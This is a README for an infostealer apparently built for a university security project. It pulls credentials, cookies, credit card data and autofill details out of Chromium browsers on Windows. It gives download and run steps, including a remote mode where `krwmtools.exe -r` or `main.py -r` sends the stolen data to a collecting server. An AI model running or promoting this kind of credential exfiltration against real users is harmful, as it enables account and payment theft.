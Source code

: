 # KrwmTools

A tool for extracting sensitive data from Chromium browsers on Windows. Able to extract:
- Credentials
- Autofill fields
- Autofill profiles
- Autofill addresses
- Autofill names
- Autofill emails
- Autofill phone numbers
- Credit card info
- Cookies
- History (search terms and web history)

Please check out [my writeup](writeup.md) as well :)

## Local Extraction

![Local Demo](assets/local_demo.gif)

**Setup:**

<u>Option 1: Windows executable</u>
1. Download krwmtools-win.zip from Releases (on the right)
1. Extract and run the containing krwmtools.exe file. 

<u>Option 2: Directly with Python</u>
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with `python client/main.py`

Extracted data will be placed in your `Documents\KrwmTools\Client Logs` directory.

## Remote Extraction

![Remote Demo](assets/remote_demo.gif)

**Server Setup:**
1. Install dependencies with `pip install server/requirements.txt`
1. Start the program with `python server/server.py`

Extracted data will be placed in the server's `Documents\KrwmTools\Server Logs` directory.

**Client Setup:**

<u>Option 1: Windows executable</u>

1. Download krwmtools-win.zip from Releases (on the right)
1. Extract krwmtools.exe from the zip file
1. Open Command Prompt and change to the directory containing the extracted executable file
1. Start the executable with the -r or --remote flag: `krwmtools.exe -r [OPTIONAL: server_host] [OPTIONAL: server_port]`


<u>Option 2: Directly with Python</u>
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with the -r or --remote flag: `python client/main.py -r [OPTIONAL: server_host] [OPTIONAL: server_port]`

Note: if no server_host is specified, the client will try to find the server on localhost. Extracted data will also be placed in the client's `Documents\KrwmTools\Client Logs` directory. 



## Disclaimer
This tool was made for educational purposes (for a university security project). Please do not use it on others illegally or without their explicit consent, and note that I am not responsible for any damage.
